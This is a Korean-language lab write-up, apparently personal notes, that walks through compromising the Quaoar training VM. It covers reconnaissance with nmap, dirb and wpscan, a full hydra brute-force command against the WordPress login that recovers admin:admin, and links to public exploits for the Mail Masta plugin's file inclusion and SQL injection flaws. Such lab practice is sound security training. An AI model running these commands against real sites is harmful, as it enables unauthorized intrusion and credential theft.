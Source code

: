 # \[정보 탐색]
## 1. nmap
`nmap 192.168.56.0/24`
![[Pasted image 20241002102358.png]]

## 2. 웹 접속
![[Pasted image 20241002102508.png]]
![[Pasted image 20241002102535.png]]
- 클릭 시 이미지를 보여주는 기능이 동작 중이다.
![[Pasted image 20241002102631.png]]

## dirb
- 추가로 접속 가능한 페이지가 있는지 탐색하기 위해 명령어 실행
- `dirb http://192.168.56.116/`
- http://192.168.56.116/robots
![[Pasted image 20241002103414.png]]
- http://192.168.56.116/wordpress/index.php
![[Pasted image 20241002105038.png]]
- http://192.168.56.116/wordpress/index/
(!) WARNING: NOT_FOUND[] not stable, unable to determine correct URLs {30X}.
    (Try using FineTunning: '-f')

- http://192.168.56.116/wordpress/readme
![[Pasted image 20241002105126.png]]

- http://192.168.56.116/wordpress/wp-admin/

- http://192.168.56.116/wordpress/wp-links-opml
```
This XML file does not appear to have any style information associated with it. The document tree is shown below.  

<opml version="1.0">

<head>

<title>Links for Quaoar</title>

<dateCreated>Wed, 02 Oct 2024 10:52:13 GMT</dateCreated>

<!-- generator="WordPress/3.9.14" -->

</head>

<body> </body>

</opml>
```

- http://192.168.56.116/upload/include/yui/README
- http://192.168.56.116/wordpress/wp-admin/      
+ http://192.168.56.116/upload/include/yui/event/event
+ http://192.168.56.116/upload/include/yui/event/README
+ http://192.168.56.116/upload/include/yui/yahoo/README                    
+ http://192.168.56.116/upload/include/yui/yahoo/yahoo                                   
## wpscan
![[Pasted image 20241002114900.png]]
- 메일 관련 플러그인 발견

## searchsploit
![[Pasted image 20241002115212.png]]
- 메일 관련 플러그인에 취약점 확인

![[Pasted image 20241002120809.png]]

로그인 정보를 갖기 위해 브루트 포스 공격 실행

프록시를 설정해 로그인 시 페이지와 주고 받는 데이터 확인
![[Pasted image 20241002125017.png]]

post 데이터를 활용해 브루트 포스 공격 시도
`hydra 192.168.56.116 http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwordpress%2Fwp-admin%2F&testcookie=1:Lost your password" -l admin -P ./weakpass.txt`
![[Pasted image 20241002125000.png]]
admin:admin 인 것을 확인
![[Pasted image 20241002125106.png]]

플러그인 관련 취약점을 활용한 소스코드 다운 받는다.
https://github.com/p0dalirius/CVE-2016-10956-mail-masta

실행 결과
![[Pasted image 20241002130512.png]]
![[Pasted image 20241002130708.png]]
![[Pasted image 20241002130730.png]]

wpadmin으로 ssh 접속을 시도했지만 취약한 비밀번호는 사용하지 않는 것 같다.

웹 셸을 이용해서 시스템에 접근하려 했지만 차단된 것 같다.

![[Pasted image 20241002143339.png]]

mail-masta를 활용한 익스플로잇 들을 조사하는 와중 좋은 깃 소스를 발견했다.
https://github.com/Hackhoven/wp-mail-masta-exploit

![[Pasted image 20241002144307.png]]
![[Pasted image 20241002144244.png]]
sql 인젝션을 통해 얻은 패스워드와 계정을 바로 사용한다.

![[Pasted image 20241002144412.png]]
![[Pasted image 20241002144436.png]]
![[Pasted image 20241002144505.png]]

